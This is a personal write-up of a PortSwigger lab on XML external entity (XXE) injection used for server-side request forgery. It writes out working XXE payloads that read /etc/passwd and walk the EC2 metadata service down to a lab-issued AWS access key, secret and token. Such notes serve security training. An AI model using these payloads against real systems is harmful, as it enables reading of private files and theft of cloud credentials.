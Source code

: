<span style="color:yellow;font-weight:700;font-size:30px">
XML external entity (XXE) injection - 4 Labs
</span>

# ***1. Lab: Exploiting XXE to perform SSRF attacks***
https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

**what we know:**
EC2 metadata endpoint -  http://169.254.169.254/

1. test1:
  <!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///"> ]>
  <stockCheck>
  <productId>
  &aparecium;
  </productId>

response: ls of /

2. test2:
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///etc/passwd"> ]>

response:
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
...

xxe exist - v

3. get data from another server:

```xml
  <!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/"> ]>
  response: "Invalid product ID: latest"
  <!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/"> ]>
  response: "Invalid product ID: meta-data"
  <!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
  response: "Invalid product ID: iam"
  <!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
  response: "Invalid product ID: security-credentials"
  <!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/security-credentials"> ]>
  response: "Invalid product ID: admin"
  <!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/security-credentials/admin"> ]>
```
response: 
```json
  "Invalid product ID: {
    "Code" : "Success",
    "LastUpdated" : "2022-06-14T19:32:05.404485039Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "DyhKrjoWZ3sc7baHwQOz",
    "SecretAccessKey" : "wybIAzOjsBIjJfZobUvkIe3stXf96BH9IZnMEMKH",
    "Token" : "y03qB1O1t6Ecx67K3Rtf41tbLLn3jVU4T82HCHLUUNueNHNRw4jbLTV7qoVOFDSa2Dg5oy0q04etSvN5eEFbSZPpgjCpYKMqugmv0n8cu5JVm0CdBD0sFwihUG0AharGqkz6KxZSkwAMlkGVHkjYUEsrGUkLgksBLqVcK0UmAtUgbXMmj5rWYenmFLJy8pb3En1fHmOyZXJanvzvfiIwZTzm3dqlb3CdfZrK4Ox2KliLpSMsr5iOSvgOQA2erVK7",
    "Expiration" : "2028-06-12T19:32:05.404485039Z"
  }"
```


<!-- assitance materials:
  xxe  explanation:https://portswigger.net/web-security/xxe
  ssrf explanation:https://portswigger.net/web-security/ssrf
  ec2 explanation: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
  IAM role explanation: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html -->